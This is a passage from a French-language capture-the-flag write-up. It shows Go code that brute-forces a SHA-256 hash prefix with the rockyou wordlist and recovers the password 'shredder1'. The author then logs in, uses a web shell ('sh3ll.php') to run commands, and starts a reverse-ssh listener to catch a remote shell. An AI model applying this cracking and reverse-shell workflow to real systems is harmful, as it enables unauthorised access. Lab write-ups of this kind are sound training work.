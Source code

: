 ```go
	wordlistPath := os.Args[1]
	file, err := os.Open(wordlistPath)
	if err != nil {
		log.Fatalf("Erreur d'ouverture de fichier: %v", err)
	}
	defer file.Close()

	scanner := bufio.NewScanner(file)
	count := 0
	for scanner.Scan() {
		word := strings.TrimSpace(scanner.Text())
		hash := sha256.Sum256([]byte(word))
		hashHex := hex.EncodeToString(hash[:])

		if strings.HasPrefix(hashHex, hashPrefix) {
			fmt.Printf("[✔] Trouvé: \"%s\" → %s\n", word, hashHex)
			return
		}

		count++
		if count%100000 == 0 {
			fmt.Printf("... %d mots testés\n", count)
		}
	}

	if err := scanner.Err(); err != nil {
		log.Fatalf("Erreur de lecture: %v", err)
	}

	fmt.Println("[✘] Aucun mot correspondant trouvé.")
}

```

C'est vite cassé :

```console
$ go run main.go rockyou.txt
... 100000 mots testés
... 200000 mots testés
... 300000 mots testés
[✔] Trouvé: "shredder1" → 6f06ee724b86fca512018ad692a62aedc6c49c58af0b272eeb859d525a9d406c
```

### Du reverse shell et du root

Avec les identifiants `admin` / `shredder1`, on peut se connecter via `index.php` et accéder à `sh3ll.php` qui permet l'exécution de commandes.

Après avoir rapatrié `reverse-ssh` sur ma VM, je le mets en écoute sur mon port 80 :

```bash
sudo ./reverse-sshx64 -l -p 80 -v
```
